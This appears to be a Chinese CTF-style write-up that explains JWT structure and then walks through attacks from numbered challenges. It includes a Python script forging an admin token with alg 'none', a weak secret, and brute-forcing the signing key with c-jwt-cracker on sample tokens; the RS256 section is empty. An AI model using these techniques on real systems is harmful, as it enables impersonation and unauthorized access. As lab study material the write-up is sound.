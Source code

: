 [toc]

# JWT简介

## JWT的结构

JWT包含了使用.分隔的三部分：

- Header 头部
- Payload 负载
- Signature 签名

其结构看起来是这样的
`xxxxx.yyyyy.zzzzz`

### Header

在header中通常包含了两部分：==token类型和采用的加密算法==。

```java
{
  "alg": "HS256",
  "typ": "JWT"
}  
```

接下来对这部分内容使用 Base64Url 编码组成了JWT结构的第一部分。

### Payload

Token的第二部分是负载，它包含了claim， Claim是一些实体（通常指的用户）的状态和额外的元数据，有三种类型的claim： reserved, public 和 private.

Reserved claims: 这些claim是JWT预先定义的，在JWT中并不会强制使用它们，而是推荐使用，常用的有 iss（签发者）, exp（过期时间戳）, sub（面向的用户）, aud（接收方）, iat（签发时间）。

Public claims：根据需要定义自己的字段，注意应该避免冲突

Private claims：这些是自定义的字段，可以用来在双方之间交换信息

负载使用的例子：

```java
{
  "sub": "1234567890",
  "name": "John Doe",
  "admin": true
}
```

上述的负载需要经过Base64Url编码后作为JWT结构的第二部分。

### Signature

创建签名需要使用编码后的header和payload以及一个秘钥，==使用header中指定签名算法进行签名==。例如如果希望使用HMAC SHA256算法，那么签名应该使用下列方式创建：

```java
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret)  
```

签名用于验证消息的发送者以及消息是没有经过篡改的。

# 345 无签名

# 346 alg伪造None

> JWT支持将算法设定为“None”。如果“alg”字段设为“ None”，那么签名会被置空，这样任何token都是有效的。
> 设定该功能的最初目的是为了方便调试。但是，若不在生产环境中关闭该功能，攻击者可以通过将alg字段设置为“None”来伪造他们想要的任何token，接着便可以使用伪造的token冒充任意用户登陆网站。

payload python脚本

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "admin",
  "jti": "943d0b3237806659d2e205e42b319494"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)

```

# 347 弱口令

密匙是：123456

# 348 爆破密匙

[Jwt-爆破](https://github.com/brendan-rius/c-jwt-cracker)

```
git clone https://github.com/brendan-rius/c-jwt-cracker
cd c-jwt-cracker
make

爆破1：
docker run -it --rm  jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY2Njc1OTQ3NSwiZXhwIjoxNjY2NzY2Njc1LCJuYmYiOjE2NjY3NTk0NzUsInN1YiI6InVzZXIiLCJqdGkiOiIxM2E5ZDhhYjhkOGQzZTQ0MjVhMDEyMTY0MDNiNzk1NiJ9.cI4k4bSn3d8tnsEapUFL4Q1BXA4TdKrt8vAdDibqyMQ

爆破2
$ > ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE

```

# 349 ras256 非对称加密

